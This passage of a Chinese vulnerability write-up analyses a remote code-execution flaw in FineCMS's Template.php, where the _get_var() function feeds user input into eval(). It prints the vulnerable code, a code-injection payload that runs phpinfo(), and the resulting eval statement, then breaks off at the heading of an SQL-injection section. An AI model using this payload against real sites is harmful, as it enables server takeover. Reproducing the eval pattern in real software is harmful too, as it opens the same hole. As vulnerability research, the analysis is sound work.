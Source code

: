 	MEMBER、URLRULE、MODULE、CATEGORY

中的任意一个才行，否则会引起报错。

执行到这儿,在Template.php中的$_param存在，代码执行到了

```php
@eval('$data=$cache'.$this->_get_var($_param).';');
```
中，定位一下"\_get_var()函数"

在/finecms/dayrui/libraries/Template.php第1570行
​	
```php
public function _get_var($param) {
	$array = explode('.', $param);
	if (!$array) {
	    return '';
	}
	$string = '';
	foreach ($array as $var) {
	    $string.= '[';
	    if (strpos($var, '$') === 0) {
	        $string.= preg_replace('/\[(.+)\]/U', '[\'\\1\']', $var);
	    } elseif (preg_match('/[A-Z_]+/', $var)) {
	        $string.= '' . $var . '';
	    } else {
	        $string.= '\'' . $var . '\'';
	    }
	    $string.= ']';
	}
	return $string;
}
```
在这个函数中，如果传入的参数$param的开头是一个$,

```php
$string.= preg_replace('/\[(.+)\]/U', '[\'\\1\']', $var);
```
这一条语句将会把所有的"[(任意字符)]"替换成"['1']",如果不是$开头但是字符串中有大写字母A-Z或者_,则会给字符串两边加上空格，要是条件都不满足呢，给两边都加一个单引号',最后两边分别加上[],payload最终返回的$string为

```php
['1'];phpinfo();$asd=['1']
```

然后eval语句就成了

```php
@eval(﻿$data=$cache['1'];phpinfo();$asd=['1'];)
```

代码成功执行

## 0x03 SQL语句执行漏洞演示&剖析

### 漏洞演示
